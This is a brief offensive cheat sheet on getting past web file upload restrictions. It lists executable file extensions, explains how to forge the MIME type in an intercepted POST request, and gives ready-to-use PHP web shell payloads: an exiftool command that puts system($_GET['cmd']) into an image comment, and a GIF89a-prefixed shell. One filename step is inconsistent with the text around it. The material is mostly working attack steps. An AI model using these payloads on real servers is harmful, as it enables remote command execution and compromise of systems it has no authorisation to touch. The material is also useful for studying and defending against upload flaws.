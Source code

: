 # File upload bypass

### File Extentions:

- **php:** phtml, .php, .php3, .php4, .php5, and .inc

- **asp:** .asp, .aspx

- **perl:** .pl, .pm, .cgi, .lib

- **jsp:** .jsp, .jspx, .jsw, .jsv, and .jspf

- **Coldfusion:** .cfm, .cfml, .cfc, .dbm

### MIME type

Blacklisting MIME types is also a method of file upload validation. It may be bypassed by intercepting the POST request on the way to the server and modifying the MIME type.

**Normal php MIME type:**

`Content-type: application/x-php`

**Replace with:**

`Content-type: image/jpeg`

### PHP getimagesize()

For file uploads which validate image size using php getimagesize(), it may be possible to execute shellcode by inserting it into the Comment attribute of Image properties and saving it as file.jpg.php.

You can do this with gimp or exiftools:

`exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg`

`mv file.jpg file.php.jpg`

### GIF89a; header

Use to trick the server by modifying the POST request with GIF89a in the header with Burp.

```
GIF89a;
<?
system($_GET['cmd']);
?
```


